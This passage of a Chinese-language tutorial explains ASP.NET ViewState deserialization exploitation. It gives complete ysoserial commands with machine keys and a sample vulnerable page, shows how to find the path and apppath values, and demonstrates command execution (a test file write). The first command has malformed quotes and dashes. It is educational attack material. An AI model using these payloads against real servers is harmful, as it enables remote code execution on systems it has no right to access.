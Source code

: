 对于 ASP.NET framework ≥ 4.5，我们需要向 ysoserial payload 生成器提供 _解密算法_ 和 _解密密钥_，如下所示：

```
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c “echo 123 > c:\windows\temp\test.txt” --path=”/site/test.aspx/” --apppath=”/directory” — decryptionalg=”AES” --decryptionkey=”EBA4DC83EB95564524FA63DB6D369C9FBAC5F867962EAC39" --validationalg=”SHA1" --validationkey=”B3C2624FF313478C1E5BB3B3ED7C21A121389C544F3E38F3AA46C51E91E6ED99E1BDD91A70CFB6FCA0AB53E99DD97609571AF6186DE2E4C0E9C09687B6F579B3"
```

上面的 _path_ 和 _apppath_ 参数可以通过一些调试来确定。为了 demo 演示，我们将使用以下代码。

前端代码：

```
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="test.aspx.cs" Inherits="test" %><!DOCTYPE html><html xmlns="http://www.w3.org/1999/xhtml"><head runat="server">    <title></title></head><body>    <form id="form1" runat="server">        <asp:TextBox id="TextArea1" TextMode="multiline" Columns="50" Rows="5" runat="server" />        <asp:Button ID="Button1" runat="server" OnClick="Button1_Click"                 Text="GO" class="btn"/>  <br />        <asp:Label ID="Label1" runat="server"></asp:Label>    </form></body></html>
```

后端代码：

```
using System;using System.Collections.Generic;using System.Web;using System.Web.UI;using System.Web.UI.WebControls;using System.Text.RegularExpressions;using System.Text;using System.IO;public partial class test : System.Web.UI.Page{    protected void Page_Load(object sender, EventArgs e)    {    }protected override void OnInit(EventArgs e)    {        base.OnInit(e); }    protected void Button1_Click(object sender, EventArgs e)    {        Label1.Text = TextArea1.Text.ToString();    }}
```

当单击用户界面中的 _Go_ 按钮时，将发送以下请求。请注意，`__VIEWSTATEGENERATOR` 的值目前为 **75BBA7D6** 。借助 ysoserial payload 生成器的 islegacy 和 isdebug 开关，我们可以尝试猜测 _path_ 和 _apppath_ 的值。

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJHMs10Tagic76GdHc8NcUyBgW0qBvJl1IN4zCoBibZ3M3xv2yWIP3zq7Q/640?wx_fmt=png)点击 Go 时发送的正常请求

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJhOORYyzQIwzjTko5UaUoeHyNVF5icNBNqL363kOdWIu1DvoYl1dVFYQ/640?wx_fmt=png)用于上述请求的加密的 ViewState

在 ysoserial 工具中，生成一个如下所示的具有不同的 _path_ 和 _apppath_ 参数值的 payload 。一旦`__VIEWSTATEGENERATOR` 的生成值与 Web 应用程序请求中的值匹配，可以得出结论，我们获得了正确的值。

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJKtRTfKMiar2GSxpBNwXWKXbqia6yt7wycDfKpZgDbJMb6oU6LkPe9u8g/640?wx_fmt=png)确定 path 和 apppath

在上面的屏幕截图中，第二个请求为我们提供了 `__VIEWSTATEGENERATOR` 参数的正确值。因此，我们可以使用 _path_ 和 _apppath_ 的值来生成有效的 payload 。现在的命令是：

```
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --path="/test.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="EBA4DC83EB95564524FA63DB6D369C9FBAC5F867962EAC39" --validationalg="SHA1" --validationkey="B3C2624FF313478C1E5BB3B3ED7C21A121389C544F3E38F3AA46C51E91E6ED99E1BDD91A70CFB6FCA0AB53E99DD97609571AF6186DE2E4C0E9C09687B6F579B3"
```

请注意，我们还需要对生成的 payload 进行 URL 编码，以便能够在我们的示例中使用它。在上述请求中使用生成的 payload 的 URL 编码值替换 `__VIEWSTATE` 的值后，我们的 payload 将执行。这可以观察到如下：

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJ9L8QI4w7TRBUxE8Vc7cNqCxPhovLFXQ24oPg5BwH0ppXhBIGUPOyqg/640?wx_fmt=png)文件 test.txt 在提交请求后被创建
